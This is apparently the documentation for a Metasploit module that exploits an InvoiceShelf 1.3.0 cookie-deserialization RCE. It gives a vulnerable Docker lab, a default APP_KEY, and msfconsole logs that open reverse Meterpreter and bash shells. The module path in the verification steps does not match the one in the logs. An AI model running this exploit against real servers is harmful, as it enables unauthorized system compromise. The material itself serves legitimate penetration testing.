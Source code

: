 ## Vulnerable Application
InvoiceShelf is an open-source web & mobile app that helps you track expenses, payments, create professional
invoices & estimates and is based on the PHP framework Laravel.
InvoiceShelf has a Remote Code Execution vulnerability that allows remote unauthenticated attackers to conduct
PHP deserialization attacks. This is possible when the `SESSION_DRIVER=cookie` option is set on the default
InvoiceShelf .env file meaning that any session will be stored as a ciphered value inside a cookie.
These sessions are made from a specially crafted JSON containing serialized data which is then ciphered using
Laravel's encrypt() function.
An attacker in possession of the `APP_KEY` would therefore be able to retrieve the cookie, uncipher it and modify
the serialized data in order to get arbitrary deserialization on the affected server, allowing them to achieve
remote command execution. InvoiceShelf version `1.3.0` and lower is vulnerable.
As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
potentially resulting in complete system compromise, data exfiltration, or unauthorized access
to sensitive information.

The following release was tested.
* InvoiceShelf `1.3.0` on Docker

## Installation steps to install InvoiceShelf on Docker
* Follow the instructions [here](https://docs.invoiceshelf.com/installation.html) for docker or manual install.
* Please ensure that `SESSION_DRIVER=cookie` is set to cookie.
* cp `.env.example` to `.env` and note down the `APP_KEY` setting.
* To make life easy, use the docker-compose.yml below to install a vulnerable InvoiceShell on Docker.
```
 #-------------------------------------------
 # InvoiceShelf MySQL docker-compose variant
 # Repo : https://github.com/InvoiceShelf/docker
 #-------------------------------------------

services:
  invoiceshelf_db:
    container_name: invoiceshelf_db
    image: mariadb:10
    environment:
      - MYSQL_DATABASE=invoiceshelf
      - MYSQL_USER=invoiceshelf
      - MYSQL_PASSWORD=Passw0rd
      - MARIADB_ALLOW_EMPTY_ROOT_PASSWORD=true
    expose:
      - 3306
    volumes:
      - mysql:/var/lib/mysql
    networks:
      - invoiceshelf
    restart: unless-stopped
    healthcheck:
      test: ["CMD", "mariadb-admin" ,"ping", "-h", "localhost"]
      timeout: 20s
      retries: 10

  invoiceshelf:
    image: invoiceshelf/invoiceshelf:1.3.0
    container_name: invoiceshelf
    ports:
      - 90:80
    volumes:
      - ./invoiceshelf_mysql/data:/data
      - ./invoiceshelf_mysql/conf:/conf
    networks:
      - invoiceshelf
    environment:
      # PHP timezone e.g. PHP_TZ=America/New_York
      - PHP_TZ=UTC
      - TIMEZONE=UTC
      - APP_NAME=Laravel
      - APP_ENV=local
      - APP_DEBUG=true
      - APP_URL=http://localhost:90
      - DB_CONNECTION=mysql
      - DB_HOST=invoiceshelf_db
      - DB_PORT=3306
      - DB_DATABASE=invoiceshelf
      - DB_USERNAME=invoiceshelf
      - DB_PASSWORD=Passw0rd
      - DB_PASSWORD_FILE=
      - CACHE_STORE=file
      - SESSION_DRIVER=cookie
      - SESSION_LIFETIME=1440
      - SESSION_ENCRYPT=false
      - SESSION_PATH=/
      - SESSION_DOMAIN=localhost
      - SANCTUM_STATEFUL_DOMAINS=localhost:90
      - STARTUP_DELAY=
      #- MAIL_DRIVER=smtp
      #- MAIL_HOST=smtp.mailtrap.io
      #- MAIL_PORT=2525
      #- MAIL_USERNAME=null
      #- MAIL_PASSWORD=null
      #- MAIL_PASSWORD_FILE=<filename>
      #- MAIL_ENCRYPTION=null
    restart: unless-stopped
    depends_on:
      - invoiceshelf_db

networks:
  invoiceshelf:

volumes:
  mysql:
```
* Execute `docker-compose up -d`
* You can access the InvoiceShelf application at http://localhost:90

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/linux/http/invoiceshelf_uauth_rce_cve_2024_55556`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
### APP_KEY
This option is required if the BRUTE_FORCE option is not used.
It is the Laravel APP_KEY with a default key: `base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=`.

### BRUTEFORCE
This option is optional and is a text file with a list of APP_KEYs, one per line for a bruteforce attack.

## Scenarios
### InvoiceShelf 1.3.0 on Docker -  PHP Command target
Attack scenario: use the default Laravel APP_KEY preset in the option APP_KEY.
```msf
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set rhosts 192.168.201.21
rhosts => 192.168.201.21
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.21:90 can be exploited.
[+] The target appears to be vulnerable. InvoiceShelf 1.3.0
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the cookie.
[*] Grabbing the cookies.
[+] APP_KEY is valid: base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=
[+] Unciphered value: f80a79e26a4e80e6829ca82e9323f17dcbf8226b|{"data":"a:3:{s:6:\"_token\";s:40:\"4Fgr0aT0N85gxRmu4PoVqPzHU7XOH23NCrivJO9x\";s:9:\"_previous\";a:1:{s:3:\"url\";s:40:\"http:\/\/192.168.201.21:90\/login?%2Flogin=\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1741454360}
[*] Generate an encrypted serialized cookie payload with our cracked APP_KEY.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.21
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.21:54194) at 2025-03-07 17:19:21 +0000

meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www/html/InvoiceShelf/public
meterpreter > sysinfo
Computer    : 72fe563832ca
OS          : Linux 72fe563832ca 6.12.5-linuxkit #1 SMP PREEMPT_DYNAMIC Tue Jan 21 10:25:35 UTC 2025 x86_64
Meterpreter : php/linux
meterpreter >
```
###  InvoiceShelf 1.3.0 on Docker - Unix/Linux Command target
Attack scenario: use the BRUTEFORCE option with a list of APP_KEYS in a text file.
```msf
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set target 1
target => 1
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set BRUTEFORCE /root/laravel-crypto-killer/wordlists/crater.txt
BRUTEFORCE => /root/laravel-crypto-killer/wordlists/crater.txt
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.21:90 can be exploited.
[+] The target appears to be vulnerable. InvoiceShelf 1.3.0
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the cookie.
[*] Grabbing the cookies.
[*] Starting bruteforce decryption with APP_KEYS listed in /root/laravel-crypto-killer/wordlists/crater.txt.
[+] APP_KEY is valid: base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=
[+] Unciphered value: ce0776f8682b66a8407e6a3d62622642ec8fc685|{"data":"a:3:{s:6:\"_token\";s:40:\"Q2zYE5unWqTpdLwFwqgKxBVubiDI95ceLObsbXXV\";s:9:\"_previous\";a:1:{s:3:\"url\";s:40:\"http:\/\/192.168.201.21:90\/login?%2Flogin=\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1741454687}
[*] Generate an encrypted serialized cookie payload with our cracked APP_KEY.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 3 opened (192.168.201.8:4444 -> 192.168.201.21:54229) at 2025-03-07 17:24:53 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1000(invoiceshelf)
uname -a
Linux 72fe563832ca 6.12.5-linuxkit #1 SMP PREEMPT_DYNAMIC Tue Jan 21 10:25:35 UTC 2025 x86_64 GNU/Linux
pwd
/var/www/html/InvoiceShelf/public
```

## Limitations
No limitations.
